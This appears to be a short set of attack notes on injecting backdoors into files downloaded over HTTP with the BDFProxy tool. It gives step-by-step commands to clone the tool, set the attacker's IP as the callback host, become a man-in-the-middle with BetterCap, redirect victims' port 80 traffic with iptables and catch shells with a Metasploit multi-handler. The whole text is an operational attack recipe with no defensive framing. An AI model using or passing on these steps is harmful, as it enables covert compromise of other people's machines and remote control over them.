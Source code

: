 These attack only work on a HTTP connection  
BDFProxy Package does not work on new versions of Linux

1. Clone Repo

````bash
git clone https://github.com/secretsquirrel/BDFProxy.git
````

2. Modify `bdfproxy.cfg` File

````bash
proxyMode : transparent
# For Windows and Linux Target they need to be changed separately
HOST : <our-ip-address> 
````

3. Run the `./bdf_proxy.py`
4. Use BetterCap to become MITM
5. Redirect Data to BDFProxy

````bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
````

6. Setup Metasploit Multi Handler

 > [!NOTE]
 > BDFProxy creates an .rc file that consists of all the code required to setup the handler which can be used  
 > `msfconsole -r <filename>`
